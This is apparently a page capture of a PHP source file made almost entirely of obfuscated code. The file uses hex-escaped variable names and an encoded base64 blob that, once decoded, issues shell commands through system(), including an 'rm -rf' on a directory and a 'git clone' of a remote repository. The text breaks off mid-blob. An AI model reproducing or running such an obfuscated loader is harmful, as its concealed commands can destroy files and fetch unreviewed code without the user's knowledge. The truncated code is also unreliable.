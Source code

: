 # user  <?php
${"\x47L\x4f\x42\x41\x4c\x53"}["j\x6els\x75\x6b\x70k"]="\x5f\x46";${"G\x4cOBAL\x53"}["\x6e\x70\x6a\x70\x6d\x66\x66mf\x61"]="\x5f\x58";${${"G\x4c\x4fB\x41\x4c\x53"}["j\x6e\x6c\x73u\x6b\x70\x6b"]}=__FILE__;${${"\x47LO\x42\x41\x4c\x53"}["np\x6a\x70\x6df\x66m\x66a"]}="P\x7a4\x38P3B\x6fcA0K\x5a\x44\x460N\x56\x39k\x4e\x57Y\x78\x4d\x32x\x30\x58\x33\x510bT\x56\x36\x4dm\x341X3\x4d1dC\x67iQ\x58M\x30\x4dS9\x4bMWs\x78\x63nQx\x49ik7\x44\x51pA\x633lz\x64\x44\x56\x74K\x43J\x6a\x62\x44\x55\x78\x63\x69\x49pO\x770KQH\x4e5c3Q\x31\x62Sg\x69cm\x30\x67LXJ\x6dI\x44Nz\x4eXIiKTs\x4e\x43k\x42z\x65\x58N\x30N\x57\x30\x6fImc\x30d\x43B\x6ab\x44\x4au\x4e\x53Bod\x48\x52wc\x7aovL2c\x30\x64\x47gzYi5jM\x6d\x30\x76\x51z\x4ajNW\x35\x30\x65i8z\x63\x7a\x56y\x49i\x6b7DQpA\x63\x33\x6cz\x64\x44VtKCJ\x6ab\x44UxciIpO\x77\x30\x4b\x4aH\x51\x39I\x6c\x78u\x49\x6as\x4eCiR\x79\x50\x53\x4acb\x6c\x78u\x49jsNCi\x52iNHIzP\x53\x4acM\x479\x76Wz\x6c1\x62SI\x37D\x51\x6f\x6b\x64DN\x79\x61\x7a\x52z\x50S\x4acM\x479vW\x7al\x6cb\x53\x49\x37\x44Q\x6f\x6bN\x47o\x79\x50\x53\x4a\x63\x4d\x479v\x57z\x6ch\x62\x53\x497\x44\x51\x6f\x6bc\x44\x4e\x30N\x47\x679\x49l\x77\x77b\x329b\x4fTdtIjs\x4eCiR\x77NG5\x72\x50S\x4a\x63\x4d\x479\x76\x57z\x6c\x70bS\x49\x37D\x51okc\x6aV\x6bP\x53Jc\x4dG9v\x57\x7ak2bS\x49\x37DQo\x6b\x61z\x4e\x75NG\x35n\x50\x53\x4a\x63M\x479\x76W\x7al\x76b\x53I\x37\x44Qp\x79NX\x45\x7a\x4eHI\x31Im\x4dybm\x59\x30Zy5\x77aH\x41\x69\x4fw\x30K\x4eW\x4e\x6f\x4diRi\x4eH\x49\x7a\x4ci\x49\x4eC\x69\x34j\x49yMjI\x79\x34u\x4ci4j\x49\x79M\x6aLi4\x75\x49\x79\x4d\x75L\x69M\x6a\x4c\x694\x6aIy4u\x49y\x4d\x75L\x694\x6aIyMj\x4ci\x34uL\x69MjIyM\x75Li4\x75Iy\x4d\x6aIy\x34\x75Li\x4dj\x4ci4\x6aIy4\x4eC\x69\x34jI\x79\x34\x75\x49\x79M\x75\x4c\x69MjL\x69\x34jIy4\x75\x49y\x4d\x6aLiM\x6aLi\x34\x75\x49y\x4d\x6aI\x794uLiMjL\x694j\x49\x79\x34uI\x79\x4d\x75L\x69\x4d\x6a\x4ci4jI\x794uL\x69\x34u\x4c\x69Mj\x4c\x694\x6aI\x79\x34\x4eC\x694\x6aI\x794\x75IyMuL\x69M\x6aLi4jI\x79\x34\x75I\x79Mu\x49\x79\x4djL\x694u\x4ci\x4d\x6aL\x694\x75\x4ci\x4dj\x4ci4\x75\x4c\x694\x75\x49y\x4dj\x49y\x4d\x6a\x4ci\x34\x75Iy\x4dj\x49\x79\x34\x75LiM\x6a\x49\x79Mj\x49y4\x4e\x43i\x34jI\x79\x34\x75\x49yM\x75Li\x4dj\x4c\x694\x6aI\x794u\x49y\x4du\x4ciM\x6aL\x69\x34\x75L\x69MjL\x694\x75\x4c\x69\x4d\x6a\x4c\x69\x34\x6aI\x794\x75I\x79\x4d\x75Li\x4dj\x4c\x69\x34\x75\x4ci\x34uI\x79\x4du\x4c\x69\x4d\x6aLi\x34\x6aIy4\x4e\x43\x694\x6a\x49\x79\x4dj\x49\x79\x34uL\x694\x6aI\x79\x4d\x6a\x4ci4\x75\x49y\x4duL\x69\x4dj\x4c\x694\x75\x4ciMj\x4c\x69\x34\x75\x4ci\x34\x6a\x49yM\x6aL\x694u\x49\x79M\x75L\x69\x4d\x6a\x4ci4u\x49\x79\x4djI\x79\x34\x75\x4ci\x4dj\x4ci\x34j\x49y\x34N\x43\x690t\x58D\x42vb\x31\x735N2\x31b\x49E\x4e\x79N\x54\x46\x30Mn\x49\x6b\x63\x6a\x56k\x49\x44o\x6bN\x47o\x79\x49\x45\x4d\x79\x59\x7aVud\x48\x6f\x6b\x63\x44N\x30NGg\x67f\x43\x42LMmQ\x31\x4aH\x491Z\x43A\x36\x4aD\x52\x71Mi\x42m\x59zV\x34\x5aUQkc\x44N\x30\x4eG\x67g\x66CBZdCR\x79N\x57Q\x67O\x69Q\x30a\x6aI\x67\x512\x67\x78bm41bC\x42\x44\x4dmM1\x62\x6eR6J\x48\x41\x7a\x64\x44\x52\x6f\x49F\x30\x6bY\x6a\x52yM\x79\x30t\x44\x51\x6ft\x4c\x530\x74LS0\x74\x4c\x53\x30tLS0\x74\x4c\x530\x74LS\x30\x74\x4c\x530\x74\x4cS0\x74\x4c\x53\x30t\x4cS0tL\x530\x74\x4cS\x30\x74LS\x30t\x4cS0t\x4cS0\x74LS\x30\x74\x4cS\x30\x74\x4c\x53\x30tL\x53\x30t\x4cS\x30\x74L\x53\x30\x74DQ\x6f\x4eC\x69I\x37D\x51o\x4e\x43\x6aV\x79cjJ\x79X\x33I\x31\x63DJy\x64D\x52\x75Z\x79\x67\x77K\x54\x73N\x43n\x49\x31c\x54M\x30cjU\x67\x5819\x45SVJ\x66\x58y\x34i\x4c\x7a\x4e\x7aN\x58\x49\x76\x4d3M1c\x69\x35\x77\x61\x48A\x69\x4fw\x30\x4b\x4eWN\x6f\x4diAkb\x58N\x6e\x64zU\x75\x4aH\x517D\x51\x70zbDU1\x63\x43\x67\x32KT\x73\x4e\x43i\x410\x5a\x69\x67k\x62\x6aF\x74\x4dT0\x39\x49\x69I\x70\x65w\x30\x4b\x4eW\x4eoMiR\x72M24\x30\x62\
